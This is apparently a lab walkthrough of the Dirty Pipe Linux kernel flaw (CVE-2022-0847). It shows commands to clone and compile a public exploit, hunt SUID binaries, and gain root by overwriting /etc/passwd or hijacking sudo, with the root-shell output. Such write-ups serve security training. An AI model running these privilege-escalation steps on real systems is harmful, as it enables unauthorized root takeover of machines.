

# Dirty Pipe

A vulnerability in the Linux kernel, named **[Dirty Pipe](https://dirtypipe.cm4all.com/)** (**[CVE-2022-0847](https://www.cve.org/CVERecord?id=CVE-2022-0847)**), allows unauthorized writing to root user files on Linux. Technically, the vulnerability is similar to the **[Dirty Cow](https://dirtycow.ninja/)** vulnerability discovered in 2016. All kernels from version `5.8` to `5.17` are affected and vulnerable to this vulnerability.

In simple terms, this vulnerability allows a user to write to arbitrary files as long as he has read access to these files. It is also interesting to note that Android phones are also affected. Android apps run with user rights, so a malicious or compromised app could take over the phone.

This vulnerability is based on pipes. Pipes are a mechanism of unidirectional communication between processes that are particularly popular on Unix systems. For example, we could edit the `/etc/passwd` file and remove the password prompt for the root. This would allow us to log in with the `su` command without the password prompt.

To exploit this vulnerability, we need to download a **[PoC](https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits)** and compile it on the target system itself or a copy we have made.
### Download Dirty Pipe Exploit
```
cry0l1t3@nix02:~$ git clone https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits.git
cry0l1t3@nix02:~$ cd CVE-2022-0847-DirtyPipe-Exploits
cry0l1t3@nix02:~$ bash compile.sh
```

After compiling the code, we have two different exploits available. The first exploit version (`exploit-1`) modifies the `/etc/passwd` and gives us a prompt with root privileges. For this, we need to verify the kernel version and then execute the exploit.
### Verify Kernel Version
```
cry0l1t3@nix02:~$ uname -r

5.13.0-46-generic
```

### Exploitation 1 Overwrite `/etc/passwd` file with only read access.
```
cry0l1t3@nix02:~$ ./exploit-1

Backing up /etc/passwd to /tmp/passwd.bak ...
Setting root password to "piped"...
Password: Restoring /etc/passwd from /tmp/passwd.bak...
Done! Popping shell... (run commands now)

id

uid=0(root) gid=0(root) groups=0(root)
```

With the help of the 2nd exploit version (`exploit-2`), we can execute SUID binaries with root privileges. However, before we can do that, we first need to find these SUID binaries. For this, we can use the following command:
### Find SUID Binaries
```
cry0l1t3@nix02:~$ find / -perm -4000 2>/dev/null

/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/lib/snapd/snap-confine
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/eject/dmcrypt-get-device
/usr/lib/xorg/Xorg.wrap
/usr/sbin/pppd
/usr/bin/chfn
/usr/bin/su
/usr/bin/chsh
/usr/bin/umount
/usr/bin/passwd
/usr/bin/fusermount
/usr/bin/sudo
/usr/bin/vmware-user-suid-wrapper
/usr/bin/gpasswd
/usr/bin/mount
/usr/bin/pkexec
/usr/bin/newgrp
```
Then we can choose a binary and specify the full path of the binary as an argument for the exploit and execute it.
### Exploitation 2 Execute `SUID` binaries with `root privileges`.
```
cry0l1t3@nix02:~$ ./exploit-2 /usr/bin/sudo

[+] hijacking suid binary..
[+] dropping suid shell..
[+] restoring suid binary..
[+] popping root shell.. (dont forget to clean up /tmp/sh ;))

# id

uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),120(lpadmin),131(lxd),132(sambashare),1000(cry0l1t3)
```

# PoC of Dirty Pipe Overwrite `/etc/passwd` file with read access.


# PoC of Dirty Pipe with Execute `SUID` binaries with `root privileges`.
```
htb-student@ubuntu:/tmp$ uname -a
Linux ubuntu 5.15.0-051500-generic #202110312130 SMP Sun Oct 31 21:33:20 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
htb-student@ubuntu:/tmp$ find / -perm -4000 2>/dev/null
/usr/lib/openssh/ssh-keysign
/usr/lib/snapd/snap-confine
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/bin/pkexec
/usr/bin/passwd
/usr/bin/chsh
/usr/bin/fusermount
/usr/bin/sudo
/usr/bin/newgrp
/usr/bin/mount
/usr/bin/gpasswd
/usr/bin/umount
/usr/bin/su
/usr/bin/at
/usr/bin/chfn
/tmp/sh

htb-student@ubuntu:/tmp$ ./exploit-2 /usr/bin/sudo
[+] hijacking suid binary..
[+] dropping suid shell..
[+] restoring suid binary..
[+] popping root shell.. (dont forget to clean up /tmp/sh ;))
# id
uid=0(root) gid=0(root) groups=0(root),1000(htb-student)
# cd /root
# pwd
/root
# 
```
